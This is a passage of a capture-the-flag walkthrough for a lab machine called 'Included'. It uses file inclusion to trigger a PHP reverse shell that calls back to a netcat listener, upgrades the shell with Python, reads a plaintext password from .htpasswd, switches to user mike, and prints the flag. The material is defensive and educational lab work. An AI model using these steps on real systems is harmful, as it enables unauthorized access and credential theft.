 Open netcat on local computer:
```shell
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
```

Lets curl shell.php on server:
```shell
└──╼ $curl http://$SERVERIP/?file=/var/lib/tftpboot/shell.php
```

Shell has been established on nc session:
```shell
└──╼ $nc -lvp 1234
listening on [any] 1234 ...
10.129.95.185: inverse host lookup failed: Unknown host
connect to [10.10.14.104] from (UNKNOWN) [10.129.95.185] 40236
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:03:31 up  1:47,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
``` 

Lets open a better shell:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@included:/$ 
```

# Lateral Movement
With access to the system as the www-data user we do not have enough privileges to read the user flag, so we'll use mike user found on passwd file. Let's take a look on .htaccess and .htpasswd files:

```shell
www-data@included:/var/www/html$ cat .htaccess
cat .htaccess
RewriteEngine On
RewriteCond %{THE_REQUEST} ^GET.*index\.php [NC]
RewriteRule (.*?)index\.php/*(.*) /$1$2 [R=301,NE,L]
#<Files index.php>
#AuthType Basic
#AuthUserFile /var/www/html/.htpasswd
#Require valid-user
www-data@included:/var/www/html$ cat .htpasswd
cat .htpasswd
mike:Sheffield19
www-data@included:/var/www/html$ 

```

Lets jump to user mike:
```shell
www-data@included:/var/www/html$ su - mike
su - mike
Password: Sheffield19

mike@included:~$ id
id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
mike@included:~$ groups
groups
mike lxd
mike@included:~$ 
cat user.txt
a56ef91d70cfbf2cdb8f454c006935a1
```